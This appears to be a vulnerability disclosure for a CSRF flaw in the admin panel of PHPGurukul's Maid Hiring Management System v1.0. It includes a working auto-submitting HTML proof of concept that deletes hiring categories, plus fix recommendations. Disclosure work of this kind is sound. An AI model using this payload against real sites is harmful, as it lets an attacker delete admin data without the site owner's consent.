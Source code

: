 **Project Name & Repo URL:**
[Maid Hiring Management System using PHP and MySQL](https://phpgurukul.com/maid-hiring-management-system-using-php-and-mysql/)

**Vulnerability Type:**
Client Side Request Forgery

**Affected Version(s):** v1.0

**💣Vulnerability Description:**
A Cross-Site Request Forgery (CSRF) vulnerability exists in the admin panel of PHPGurukul Hiring Management System, allowing an attacker to delete arbitrary hiring categories by tricking an authenticated admin into visiting a malicious site. This can lead to data deletion and unauthorized admin-level changes.

**👩‍💻Impact:**
Unauthorized category deletion.

**🛜Proof-of-Concept (PoC):**

1)There was a category delete functionality where only authenticated admin can delete category.
![1](https://github.com/user-attachments/assets/e89bd4f0-7e18-4160-a021-52782d46316a)
2)HTML code to send GET request to the endpoint `/admin/manage-category.php`
**CSRF-POC**
```
<html>
  <body>
    <form action="http://127.0.0.1/mhms/admin/manage-category.php">
      <input type="hidden" name="delid" value="13" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

3)Use the HTML code and craft a malicious URL.
![3](https://github.com/user-attachments/assets/53ce1a60-b26e-475e-8ea4-79dacbb18ab2)
4)After Admin clicks on the link, new category will be deleted.
![4](https://github.com/user-attachments/assets/20a44793-7785-4c3c-98ed-ea20a8649aa9)
![5](https://github.com/user-attachments/assets/f44af5f6-6f4c-44cb-8f47-72148378afcd)

**Recommendation:**
Implement of CSRF tokens in admin forms, enforce SameSite cookies, and validate request origin to prevent unauthorized actions.
